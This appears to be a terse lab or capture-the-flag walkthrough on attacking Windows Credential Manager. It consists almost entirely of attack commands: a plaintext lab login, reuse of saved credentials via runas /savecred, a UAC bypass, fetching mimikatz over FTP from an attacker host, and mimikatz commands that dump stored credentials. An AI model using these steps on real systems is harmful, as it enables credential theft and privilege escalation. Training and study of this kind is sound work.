

# Attacking Windows Credential Manager

## What is the password mcharles uses for OneDrive?

1/
 ```
   xfreerdp3 /u:sadams /p:'totally2brow2harmon@' /v:10.129.9.172
   ```

 

2/
   ```
   cmdkey /list
   ```


3/
   ```
    runas /savecred /user:SRV01\\mcharles cmd
    runas /user:SRV01\mcharles /savecred cmd
   ```
   


4/ 
   ```
    msconfig UAC bypass
   ```
   


5/ 
   ```
    >cd C:\\Users\\Administrator
   ```
   
   ```
   cd /usr/share/windows-resources/mimikatz/x64
   sudo python3 -m pyftpdlib --port 21
   ```
   
   ```
   >curl --output mimikatz.exe ftp://10.10.14.14/mimikatz.exe 
   >dir
   >mimikatz.exe
   
   privilege::debug 
   sekurlsa::credman
   vault::cred
   ```
   
   

